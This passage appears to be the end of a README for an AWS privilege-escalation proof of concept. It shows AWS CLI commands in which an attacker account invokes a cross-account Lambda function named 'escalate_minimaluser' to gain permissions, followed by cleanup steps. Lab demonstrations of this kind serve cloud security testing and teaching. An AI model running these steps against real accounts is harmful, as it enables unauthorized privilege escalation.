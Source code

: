 1. The attacker can now invoke the function from their account.

   ```bash
   aws lambda invoke --function-name arn:aws:lambda:TARGET_LAMBDA_REGION:TARGET_ACCOUNT_NUMBER:function:escalate_minimaluser --region TARGET_LAMBDA_REGION    --profile PROFILE_FOR_ATTACKER_ACCOUNT response.json
   ```

1. Once invoked wait 5 mins or so for the changes to fully impact the account. Once done the new privileges will be attached.

   ```bash
   aws s3 ls --region PREFERRED_REGION --profile PROFILE_NAME
   ```

   This command should now succeed. Now that we have completed the proof of concept for privilege escalation we can revert the changes in the environment.

# Cleanup

1. Remove the external access permission.

   ```bash
   aws lambda remove-permission --function-name escalate_minimaluser --statement-id AllowExternalInvoke
   ```

1. Delete the lambda function.

   ```bash
   aws lambda delete-function --function-name escalate_minimaluser
   ```

1. Detach the policy from the role.

   ```bash
   aws iam detach-role-policy --role-name LambdaExecutionRole --policy-arn arn:aws:iam::ACCOUNT_NUMBER:policy/LambdaIAMPolicy
   ```

1. Delete the policy.

   ```bash
   aws iam delete-policy --policy-arn arn:aws:iam::ACCOUNT_NUMBER:policy/LambdaIAMPolicy
   ```

1. Delete the role.

   ```bash
   aws iam delete-role --role-name LambdaExecutionRole
   ```

1. Detach the policies from the user.

   ```bash
   aws iam detach-user-policy --user-name MinimalIAMPassCreateAdd --policy-arn arn:aws:iam::ACCOUNT_NUMBER:policy/MinimalIAMLambda

   aws iam detach-user-policy --user-name MinimalIAMPassCreateAdd --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
   ```
